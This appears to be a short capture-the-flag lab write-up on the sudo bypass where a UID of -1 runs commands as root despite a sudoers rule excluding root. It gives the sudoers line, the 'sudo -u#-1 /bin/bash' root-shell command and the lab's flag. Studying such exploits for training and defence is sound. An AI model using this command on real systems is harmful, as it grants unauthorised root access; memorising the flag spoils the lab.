 # writeups


/etc/sudoers
`<user> ALL=(ALL:!root) NOPASSWD: ALL`


execute some command
`sudo -u#0 command`


```
Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), 
Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 
or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so. 
It is worth noting that this will only work if you've been granted non-root sudo permissions for 
the command, as in the configuration above.

Practically, the application of this is as follows: sudo -u#-1 <command>
```
sudo -u#-1 /bin/bash

THM{l33t_s3cur1ty_bypass}

